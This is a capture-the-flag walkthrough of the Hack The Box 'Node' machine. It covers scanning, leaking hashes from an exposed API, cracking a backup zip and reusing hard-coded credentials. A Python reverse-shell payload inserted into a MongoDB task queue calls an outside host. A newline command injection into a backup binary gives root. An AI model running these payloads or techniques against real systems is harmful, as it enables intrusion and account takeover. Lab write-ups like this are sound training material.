# [Node](https://app.hackthebox.com/machines/node)

We do rustscan.
```bash
rustscan 10.10.10.58
```



We find open ports (22,3000), let's do nmap scan.

```bash
nmap -sC -sV -p22,3000 10.10.10.58 -Pn
```




Directory brute-forcing.

```bash
ffuf -u http://10.10.10.58/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 301
```


We find interesting directoies, which redirects into main page.

That's why let's user Spider tool of OWASP ZAP tool.

Even, we find 'app.js' file.




After, we getting to application, we find '/api/users/' endpoint that have usernames and password hashes.



From here ,we grab admin user's username and password hash.

username:myP14ceAdm1nAcc0uNT
password:dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af


Here's admin password.




We have valid credentials. ( myP14ceAdm1nAcc0uNT: manchester)


After login to system, we download backup file.

From file metadata we understand that it is encoded via base64 format.

let's decode this.

```bash
base64 -d myplace.backup > backup.zip
```


When we want to unzip , it asks password from us.

That's why we need to brute-force for correct password.For this , we will use **fcrackzip** tool.

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```



On, app.js , we find hard-coded credentials for mark user.



We have credentials mark:5AYRft73VtFpc84k

Let's check this credentials for ssh.




It works, now we are mark user.


Let's upload 'pspy64' tool into **'/tmp' directory**. for identifying hidden cronjobs and background processes.





Here, we find interesting process that execute /var/scheduler/app.js file.

We read this file's content.




Let's connect to this database.

```bash
mongo scheduler -u mark -p 5AYRft73VtFpc84k
```

After login to db, we see that there is **no document** for 'tasks' table in 'scheduler' db.




Let's add our malicious document which is reverse shell payload.

```bash
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.3\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
```




After, we wait for reverse shell. we got 'tom' user.




Let's spawn interactive shell.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
```

Put some modifications on shell.
```bash
export TERM=xterm
export SHELL=bash
```

user.txt




After some enumeration, we see that we can make command injection to backup file to be root user.

The denylist of characters is pretty extensive, but it missed on that will work to command inject into system. A newline in system will work just like it does in a Bash script, breaking commands. I can try just putting a newline, then /bin/bash to see if that will run. I’ll enter this by entering a ', then hitting enter to get a newline, and then entering /bin/bash and then closing the ' and hitting enter


Method should be like **below IMAGE**. As because,

It’s the zip command, and it’s clear that the output is being passed to /dev/null. I’ll try with an additional newline:




root.txt

